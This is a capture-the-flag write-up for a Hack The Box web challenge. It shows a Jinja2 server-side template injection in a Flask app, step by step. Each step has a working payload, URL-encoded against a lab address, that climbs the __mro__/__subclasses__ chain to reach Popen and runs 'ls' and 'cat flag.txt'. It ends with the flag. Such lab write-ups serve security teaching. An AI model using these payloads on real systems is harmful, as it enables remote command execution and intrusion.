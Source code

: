 # Templated
> Write-up author: jon-brandy
## DESCRIPTION:
Can you exploit this simple mistake?
## HINT:
- NONE
## STEPS:
1. First, open the host given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208017009-400c8215-3d3c-435c-a33b-6a2683b533f7.png)


2. Actually the `<p>` tag value does give us a hint, we shall do RCE (Remote Code Execution) with python.
3. In jinja, python will evaluate any command inside the curly brackets.
4. Then it will appear in the HTML of the webpage.
5. To make sure of it, let's insert `config.items()` inside the curly brackets but first encode it into an url using cyberchef.

> ENCODED COMMAND TO URL

```sh
165.232.32.50:31397/%7B%7Bconfig.items()%7D%7D
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208018797-a54a741f-083b-4351-b5e9-de3141b2c9c1.png)


6. Now we proved that the server is running on flask, to exploit the website, we can make use of MRO (Method Resolution Order).

> NOTES

```
MRO is used to traverse up the request library in flask to import os library.
Once the attacker have access to the os library then "they" can execute any command and it will be rendered to the attacker.

Have access to os library == have the shell access.
```

7. To have access to os library, we need to find the index of a special class in python which has a function called `popen`.
8. Here's how to find it.

> THE COMMAND

```py
{{"".__class__.__mro__[1].__subclasses__()}}
```

> ENCODED

```sh
165.232.32.50:31397/%7B%7B%22%22.__class__.__mro__%5B1%5D.__subclasses__()%7D%7D
```

> RESULT


![image](https://user-images.githubusercontent.com/70703371/208021124-cca496d6-4a5b-4ebe-8c63-6e164641981d.png)


![image](https://user-images.githubusercontent.com/70703371/208021170-ebcffe9d-bdbc-4dfa-8956-175d71dfc3b9.png)


9. Since it's harder for us to find the index, let's slice it.

> SLICE 100: 

```py
{{"".__class__.__mro__[1].__subclasses__()[100:]}}
```

> RESULT


![image](https://user-images.githubusercontent.com/70703371/208021582-d74c41be-d6bf-4cd6-804d-bfbc33c50a58.png)


10. There's no `popen()`, let's slice it again at 200.
11. Actually i didn't find it until i sliced at 400. I Finally found the `popen()`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208021762-9a541c60-c6ee-4903-a9ab-96956ce7c0d8.png)


12. Filter it again to 410

```py
{{"".__class__.__mro__[1].__subclasses__()[410:]}}
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208021998-4f69c242-a22c-4b3b-9985-03edef5dddf0.png)


13. Great the index is **414**.
14. To have access to the host machine, we shall encode this command, and paste the encoded one:

```py
{{"".__class__.__mro__[1].__subclasses__()[414]("ls",shell=True,stdout=-1).communicate()}}
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208023254-665429c5-ce24-40ea-bf56-19591b960fbc.png)


15. Now we know there's a flag.txt file, let's cat it.

```py
{{"".__class__.__mro__[1].__subclasses__()[414]("cat flag.txt",shell=True,stdout=-1).communicate()}}
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208023499-1e9a7b53-5643-43d2-b334-8ff9a73e7a6a.png)


16. Finally, we got the flag!

## FLAG

```
HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}
```


## LEARNING REFERENCES

```
https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti
https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/
```


